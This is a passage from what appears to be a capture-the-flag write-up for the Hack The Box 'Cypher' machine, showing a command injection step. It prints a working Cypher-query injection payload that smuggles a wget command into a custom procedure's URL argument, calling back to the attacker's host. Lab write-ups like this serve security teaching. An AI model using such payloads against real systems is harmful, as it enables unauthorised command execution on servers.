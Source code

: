 ![4ab7d62e5d2dfcde08c04951bcc9cf0c.png](/assets/images/HTB-Cypher/4ab7d62e5d2dfcde08c04951bcc9cf0c.png)



## Command Injection Attack

After executing the [getUrlStatusCode custom procedure call](#jar-file-analysis).
All we have to do is verifying the [command injection vulnerability](#command-injection-vulnerability)

The screenshot below is verifying the command injection works as expected.

The payload: **test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld;wget http://10.10.14.13:8000/commandinjected\") YIELD statusCode AS y RETURN y as hash //**

![aff64090b7083bd455c76d3202bdd9f7.png](/assets/images/HTB-Cypher/aff64090b7083bd455c76d3202bdd9f7.png)